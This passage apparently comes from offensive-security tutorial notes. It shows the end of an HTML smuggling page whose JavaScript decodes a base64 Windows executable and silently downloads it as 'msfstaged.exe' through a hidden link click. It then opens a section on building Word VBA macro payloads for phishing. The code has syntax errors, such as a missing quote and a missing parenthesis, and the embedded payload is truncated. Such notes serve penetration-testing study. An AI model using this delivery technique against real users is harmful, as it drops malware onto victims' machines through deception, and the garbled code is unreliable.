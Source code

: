                 var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
                var data = base64ToArrayBuffer(file);
                var blob = new Blob([data], {type: octet/stream'});
                var fileName = 'msfstaged.exe';

                var a = document.createElement('a');
                document.body.appendChild(a);
                a.style = 'display: none';
                var url = window.URL.createObjectURLblob);
                a.href = url;
                a.download = fileName;
                a.click();
                window.URL.revokeObjectURL(url);
            </script>
        </body>
    </html>

&nbsp;

# Phising with Microsoft Office

## Basic Macro Payloads

Macros in Word can be added by navigating to Macros option in the View Tab. Now select the current document from the drop down and give the Macro a name and then add it. The macro will be written in VBA (Visual Basic for Applications) Script.

![VBA Editor in Word](images/vba-editor.png)

